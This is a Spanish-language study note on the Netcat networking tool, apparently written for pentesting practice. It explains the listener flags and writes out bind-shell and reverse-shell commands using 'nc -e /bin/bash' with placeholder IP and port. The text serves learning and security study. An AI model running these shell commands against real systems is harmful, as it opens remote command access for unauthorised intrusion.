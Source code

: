 ----------------------
- Tags: #herramientas #bash #exploiting 
-----------------------
# Definición

> **Netcat** es una herramienta de red que permite a través de intérprete de comandos y con una sintaxis sencilla abrir puertos TCP/UDP en un HOST, asociar una [[Shell]] a un puerto en concreto y forzar conexiones UDP/TCP. 
 
Para más información, puedes consultar [Wikipedia](https://es.wikipedia.org/wiki/Netcat)

---------------------
# Uso

Para ponernos en escucha por un determinado puerto, podemos ejecutar el siguiente comando en bash:

```bash
nc -lnvp <puerto>
```

Donde cada parámetro significa lo siguiente:

- ```-l```: Indica que abre el puerto para escucha (listen), solo acepta una **única** conexión de un cliente y se cierra
- ```-n```: Indica que no se desea aplicar resolución DNS
- ```-v```: Muestra información de la conexión (verbose)
- ```-p```: Indica el puerto que desea ser abierto


Para ponernos en escucha por un determinado puerto, pero ofreciendo algún comando, con la posibilidad de intentar una [[Bind shell]],podríamos ejecutar lo siguiente:

```bash
nc -lnvp <puerto> -e <comando>
nc -lnvp <puerto> -e /bin/bash         #Útil si queremos establecer una bind shell
```

Donde el parámetro signfica lo siguiente:

- ```-e```: Indica un comando específico a ejecutar después de haber establecido una conexión


Para ejecutar un comando en una máquina con **netcat** ejecutándose, es decir, con un puerto abierto, con posibilidad de intentar una [[Reverse shell]], podemos hacer uso del siguiente comando en bash:

```bash
nc -e <comando> <IP> <puerto>
nc -e /bin/bash <IP> <puerto>          #Útil si queremos establecer una reverse shell
```

